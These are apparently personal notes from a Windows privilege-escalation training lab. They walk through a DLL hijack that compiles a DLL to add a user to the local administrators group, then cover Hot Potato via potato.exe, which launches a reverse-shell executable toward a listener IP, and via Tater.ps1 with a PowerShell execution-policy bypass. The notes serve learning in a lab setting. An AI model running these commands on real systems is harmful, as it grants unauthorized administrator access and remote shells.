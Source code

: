 **Exploitation**

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.

Kali VM

1. Open windows_dll.c in a text editor and replace the command used by the system() function to: **cmd.exe /k net localgroup administrators user /add**  
2. Exit the text editor and compile the file by typing the following in the command prompt: **x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
**3. Copy the generated file hijackme.dll, to the Windows VM.

Windows VM

1. Place hijackme.dll in ‘C:\Temp’.  
2. Open command prompt and type: **sc stop dllsvc & sc start dllsvc**  
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: **net localgroup administrators**
	

------
	
<center><h1>Hot Potato</h1></center>

*Runs in only Windows7 (As tested in TCM winPrivEsc)*

Can be exploited in 3 ways :
1. Potato ([breenmaechibe](https://github.com/foxglovesec/Potato))
2. Tater.ps1 ([Kaven Robertson](https://github.com/Kevin-Robertson/Tater)) (**Use this one**)
3. SmashedPotato.cs (Cn33liz)


*Hot Potato is successful only if the **DCOM** enabled in the target server*

-   Start a listener on Kali
    
-   Copy potato exploit in the windows machine
    
-   Run the command to execute
    
    ```
     .\potato.exe -ip 10.9.2.93 -cmd "C:\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
    ```
	
Link: https://github.com/foxglovesec/Potato/blob/20765f5ed0eb1501c32f528152c83e088d98a4cb/source/Potato/Potato/obj/Release/Potato.exe

> Tater.ps1

1. In command prompt type: **powershell.exe -nop -ep bypass**  
2. In Power Shell prompt type: **Import-Module** **C:\Users\User\Desktop\Tools\Tater\Tater.ps1**  
3. In Power Shell prompt type: **Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"**  
4. To confirm that the attack was successful, in Power Shell prompt type: **net localgroup administrators**
5. You will see that **user** account is also an Administrator now.
